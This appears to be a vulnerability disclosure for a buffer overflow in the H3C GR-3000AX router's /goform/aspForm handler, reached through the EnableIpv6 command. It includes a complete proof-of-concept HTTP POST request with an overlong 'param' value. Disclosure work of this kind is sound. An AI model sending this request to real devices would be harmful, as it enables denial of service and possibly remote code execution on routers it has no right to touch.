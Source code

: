 # Information



**Vendor of the products:**   New H3C Technologies Co., Ltd.

**Vendor's website:** [新华三 - 融绘数字未来，共享美好生活](https://www.h3c.com/cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** H3C GR-3000AX

**Affected firmware version:** <=100R006

**Firmware download address:** [download](https://www.h3c.com/cn/Home/Agreement//default.htm?t=H3C%20SWBRW1A0V100R006%20%E8%BD%AF%E4%BB%B6%E7%89%88%E6%9C%AC%E5%8F%8A%E8%AF%B4%E6%98%8E%E4%B9%A6&s=11006624)

# Overview

H3C Mini router H3C GR-3000AX has a serious buffer overflow vulnerability. By routing/goform/aspForm and properly controlling the param field, a buffer overflow can be caused, resulting in a denial of service attack or even remote code execution.  Specifically triggered by EnableIpv6

# Vulnerability details

Here is the location where the specific function is executed

![image-20250411181446037](1/image-20250411181446037.png)

There is no detection here, which leads to buffer overflow

![image-20250411181601414](1/image-20250411181601414.png)

# POC

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 239
Cache-Control: max-age=0
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/mobile_access_net.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EnableIpv6&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![image-20250411182020182](1/image-20250411182020182.png)